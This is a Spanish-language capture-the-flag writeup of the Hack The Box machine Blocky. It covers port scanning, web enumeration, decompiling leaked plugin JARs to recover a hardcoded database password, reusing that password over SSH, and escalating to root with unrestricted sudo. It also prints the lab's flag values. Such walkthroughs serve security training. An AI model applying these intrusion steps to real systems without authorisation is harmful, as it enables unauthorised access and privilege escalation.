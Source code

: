 ```yaml
---
layout: post
title: Blocky
date: 2023-04-03
description:
img:
fig-caption:
tags: [eJPT]
---
```

___

<center><img src="/writeups/assets/img/Blocky-htb/Blocky.png" alt="" style="height: 394px; width:520px;"></center>

***

# Conocimientos

* Enumeración Web

* Information Disclosure

* Análisis de código con jd-gui

* Reutilización de contraseñas

* Abuso de privilegio sudoers (Escalada de Privilegios)

***

# Reconocimiento

## Escaneo de puertos con nmap

### Descubrimiento de puertos abiertos

```null
nmap -p- --open --min-rate 5000 -n -Pn 10.10.10.37 -oG openports
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-03 17:11 GMT
Nmap scan report for 10.10.10.37
Host is up (0.15s latency).
Not shown: 65530 filtered tcp ports (no-response), 1 closed tcp port (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
25565/tcp open  minecraft

Nmap done: 1 IP address (1 host up) scanned in 27.55 seconds
```

### Escaneo de versión y servicios de cada puerto

```null
nmap -sCV -p21,22,80,25565 10.10.10.37 -oN portscan
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-03 17:07 GMT
Nmap scan report for 10.10.10.37
Host is up (0.062s latency).

PORT      STATE SERVICE   VERSION
21/tcp    open  ftp       ProFTPD 1.3.5a
22/tcp    open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d62b99b4d5e753ce2bfcb5d79d79fba2 (RSA)
|   256 5d7f389570c9beac67a01e86e7978403 (ECDSA)
|_  256 09d5c204951a90ef87562597df837067 (ED25519)
80/tcp    open  http      Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
25565/tcp open  minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.45 seconds
```

Añado el dominio ```blocky.htb``` al ```/etc/hosts```

## Puerto 80 (HTTP)

Con ```whatweb```analizo las tecnologías que emplea el servidor web

```null
whatweb http://10.10.10.37
http://10.10.10.37 [302 Found] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.37], RedirectLocation[http://blocky.htb], Title[302 Found]
http://blocky.htb [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.37], JQuery[1.12.4], MetaGenerator[WordPress 4.8], PoweredBy[WordPress,WordPress,], Script[text/javascript], Title[BlockyCraft &#8211; Under Construction!], UncommonHeaders[link], WordPress[4.8]
```

La página principal se ve así:

<img src="/writeups/assets/img/Blocky-htb/1.png" alt="">

Aplico fuzzing para descubrir rutas

```null

```

En ```/plugins``` puedo descargar varios archivos JAR

<img src="/writeups/assets/img/Blocky-htb/2.png" alt="">

Los descargo para analizarlos con ```jd-gui```

```null
jd-gui BlockyCore.jar griefprevention-1.11.2-3.1.1.298.jar
```

Se filtran credenciales de acceso a la base de datos

```null
public String sqlUser = "root";  
public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
```

Se reutiliza para el usuario ```Notch```. Puedo ver la primera flag

```null
ssh notch@blocky.htb
notch@blocky.htb's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Mon Apr  3 12:50:39 2023 from 10.10.16.2
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$ cat user.txt 
4fb1e48a264f36f3850ae255b091a3d7
```

# Escalada

Puedo ejecutar cualquier comando como cualquier usuario. Me convierto en ```root```

```null
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo su
root@Blocky:/home/notch# 
```

Puedo ver la segunda flag

```null
root@Blocky:/home/notch# cat /root/root.txt 
b1996cab6ec6681b70f1da3b6756c449
```